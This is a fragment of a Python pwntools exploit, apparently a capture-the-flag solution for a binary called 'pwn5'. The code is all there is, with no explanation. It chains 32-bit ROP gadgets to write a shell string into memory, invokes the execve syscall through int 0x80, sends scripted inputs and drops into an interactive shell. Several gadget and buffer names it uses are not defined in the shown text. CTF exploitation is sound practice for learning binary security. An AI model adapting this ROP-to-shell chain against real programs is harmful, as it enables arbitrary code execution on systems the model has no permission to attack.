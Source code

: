 ```python
null=p32(00)
refno=p32(0x0b)
mov_dword_edx_eax=p32(0x0805512b)
mov=p32(0x080543b6) \#mov_dword_ebx_eax_popebx_popesi_popedi

exploit = junk + pop_eax + shell1 + pop_ebx + shelladdr1 + mov + shelladdr2 + null + null + pop_eax + shell2 + mov + shelladdr1 + null + null + pop_eax + refno + pop_ecx + null + pop_edx + null + int80

s=process('./pwn5')
s.sendline('you')
s.sendline('are')
s.sendline('pwned')
s.sendline('y')
s.sendline('2')

s.sendline(exploit)

s.interactive()
```

